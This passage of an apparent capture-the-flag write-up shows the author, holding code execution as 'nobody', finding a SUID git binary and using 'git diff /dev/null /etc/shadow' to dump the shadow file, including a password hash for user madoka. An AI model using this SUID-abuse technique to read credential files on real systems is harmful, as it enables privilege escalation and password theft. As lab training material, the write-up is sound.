 ```

PID   USER     TIME  COMMAND
    1 nobody    0:00 /opt/bash/bin/bash /var/www/cgi-bin/uptime.sh
    2 nobody    0:00 /bin/ps aux /proc/self/cgroup

```


the challenge description says that we must get madoka password

so i tought of /etc/shadow

`-rw-r-----    1 root     nobody         512 Sep  2 20:04 /etc/shadow
`

but i couldn't read it 

so i continued my enumeration scanning for files owned by root or madoka user

but nothing

until i tought of fuzzing for SUID 

`find / -perm -4000`

at this point i did a terrible typo

and lost a bit of time

but at the end i was able to discover that the binary /usr/bin/git had the suid bit set 

this grants us full read access on system and potentially root

as i only had rce i choose to just get the /etc/shadow file

````
git diff /dev/null /etc/shadow
````

```
root:*::0::::: 
bin:!::0::::: 
daemon:!::0::::: 
adm:!::0::::: 
lp:!::0::::: 
sync:!::0::::: 
shutdown:!::0::::: 
halt:!::0::::: 
mail:!::0::::: 
news:!::0::::: 
uucp:!::0::::: 
operator:!::0::::: 
man:!::0::::: 
postmaster:!::0::::: 
cron:!::0::::: 
ftp:!::0::::: 
sshd:!::0::::: 
at:!::0::::: 
squid:!::0::::: 
xfs:!::0::::: 
games:!::0::::: 
cyrus:!::0:::::
vpopmail:!::0::::: 
ntp:!::0::::: 
smmsp:!::0::::: 
guest:!::0::::: 
nobody:!::0::::: 
haproxy:!:19591:0:99999:7::: m4d0k4:$1$.BvSIAvP$opyELmUUXoM8kQ5M31tcz/:19602:0:99999:7:::
```
